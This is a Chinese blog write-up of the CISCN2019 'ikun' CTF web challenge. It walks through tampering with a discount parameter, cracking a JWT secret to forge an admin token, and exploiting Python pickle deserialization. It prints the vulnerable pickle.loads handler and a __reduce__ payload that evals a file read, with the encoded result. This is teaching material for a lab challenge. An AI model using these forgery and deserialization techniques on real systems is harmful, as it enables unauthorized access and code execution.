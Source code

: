 ```yaml
---

title: jwt和python的反序列化

date: 2021-05-06 22:09:56

tags: 练习

categories: test79

---
```

这道题是和python反序列化有关的一题：  

# [CISCN2019 华北赛区 Day1 Web2]ikun  

打开题目，可以看到让我们买一个lv6的大会员，但是要是一页一页翻是很难找到的，所以用脚本找一下。  

	import requests


	for i in range(1,1000):
    url = "http://e744a52f-9324-4429-8e29-5ec86e29d36b.node3.buuoj.cn/shop?page={}"
    url = url.format(i)
    print(url)
    r = requests.get(url)
    if "lv6.png" in r.text and r.status_code == 200:
        print("find it:" ,url)
        break  

[![](https://pic.imgdb.cn/item/6097859ad1a9ae528f1f8c10.png)](https://pic.imgdb.cn/item/6097859ad1a9ae528f1f8c10.png)  

发现是在181页，接下来就是跳转到这一页购买。   

[![](https://pic.imgdb.cn/item/6097861dd1a9ae528f25a486.png)](https://pic.imgdb.cn/item/6097861dd1a9ae528f25a486.png)  

发现明显买不起，那就抓包看一下。  

[![](https://pic.imgdb.cn/item/609786a1d1a9ae528f2bd185.png)](https://pic.imgdb.cn/item/609786a1d1a9ae528f2bd185.png)  

发现有一个变量折扣是可以更改的，那么我们直接把它改到我们能买起。  

[![](https://pic.imgdb.cn/item/609786e9d1a9ae528f2f1c96.png)](https://pic.imgdb.cn/item/609786e9d1a9ae528f2f1c96.png)  

可以看到给了我们一个新的url地址，我们登录一下。  

[![](https://pic.imgdb.cn/item/6097877dd1a9ae528f3603c6.png)](https://pic.imgdb.cn/item/6097877dd1a9ae528f3603c6.png)  

可以看到只允许admin访问，这里就涉及到第一个知识点**jwt**  

	JSON Web Token (JWT)是一个开放标准(RFC 7519)，它定义了一种紧凑的、自包含的方式，用于作为JSON对象在各方之间安全地传输信息。该信息可以被验证和信任，因为它是数字签名的。  

简单来说就是一个身份认证，它由三部分组成：header，payload，signature。  

## header

header典型的由两部分组成：token的类型（“JWT”）和算法名称（比如：HMAC SHA256或者RSA等等）。  

例如：  

	{  
		"alg":"hs256",  
		"typ":"JWT"  
	}  

然后，用Base64对这个JSON编码就得到JWT的第一部分.  

## Payload

JWT的第二部分是payload，它包含声明（要求）。声明是关于实体(通常是用户)和其他数据的声明。声明有三种类型: registered, public 和 private。

    Registered claims : 这里有一组预定义的声明，它们不是强制的，但是推荐。比如：iss (issuer), exp (expiration time), sub (subject), aud (audience)等。
    Public claims : 可以随意定义。
    Private claims : 用于在同意使用它们的各方之间共享信息，并且不是注册的或公开的声明  

例如：  
	{  
		"sub":"1234567890",  
		"name":"jhon doe",
		"admin":true  
	}  

## Signature

为了得到签名部分，你必须有编码过的header、编码过的payload、一个秘钥，签名算法是header中指定的那个，然对它们签名即可。

例如：

HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)

签名是用于验证消息在传递过程中有没有被更改，并且，对于使用私钥签名的token，它还可以验证JWT的发送方是否为它所称的发送方。  

以上就是关于JWT生成的大致的介绍，关于生成JWT可以去官网上操作，比较简单。  

[JWT官网](https://jwt.io/)  

前面抓包时我们已经可以看到，这道题关于身份的验证时通过JWT来的，接下来就是伪造admin的jwt了，我们先解码原本的jwt。  

[![](https://pic.imgdb.cn/item/60978a11d1a9ae528f54379d.png)](https://pic.imgdb.cn/item/60978a11d1a9ae528f54379d.png)  

可以看到用户名是我自己注册的123，我们这里要改成admin，而最后一部分是经过hs256加密过的，我们可以使用工具破解得到密钥是**1Kun**  

那么接下来我们就可以到官网伪造我们的JWT了。  

[![](https://pic.imgdb.cn/item/60978af0d1a9ae528f5fca34.png)](https://pic.imgdb.cn/item/60978af0d1a9ae528f5fca34.png)  

然后用这个JWT就可以成功登录，（这里jwt在网页的cookie里，要在网页里修改）  

[![](https://pic.imgdb.cn/item/60978bafd1a9ae528f69d3ce.png)](https://pic.imgdb.cn/item/60978bafd1a9ae528f69d3ce.png)  

成功登录后看到源码下载地址，下载下来发现是python代码，其中有一个地方是python的反序列化。  

	import tornado.web
	from sshop.base import BaseHandler
	import pickle
	import urllib
	
	
	class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)  

原来python也能进行序列化和反序列化，而且有一个关于__ reduce __()魔法函数的漏洞，**具体原因在于其可以将自定义的类进行序列化和反序列化。反序列化后产生的对象会在结束时触发__reduce__()函数从而触发恶意代码。**  

下面会附上相关博客下，这里对于原理不细讲了。  

那么我们点击一件成为大会员后抓包，可以看到这个become参数我们是可以控制的，那么我们重写__ reduce __()魔法方法然后传入become，从而触发重写__ reduce __()魔法方法的漏洞  

	import pickle
	import urllib
	
	class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))    #打开读取flag.txt的内容
	
	a = pickle.dumps(payload())  #序列化payload
	a = urllib.quote(a)  #进行url编码
	print a

得到的编码是  

	c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.  

传入become就能得到flag。  

# 小结  

这道题有一个新的知识点，就是关于JWT和python的反序列化漏洞，这两个一个可以通过官网伪造，另一个有通用的payload，算是学到新知识了。  

附上学习链接   

[认识JWT](https://www.cnblogs.com/cjsblog/p/9277677.html)  
[（Python）cPickle反序列化漏洞](https://blog.csdn.net/SKI_12/article/details/85015803)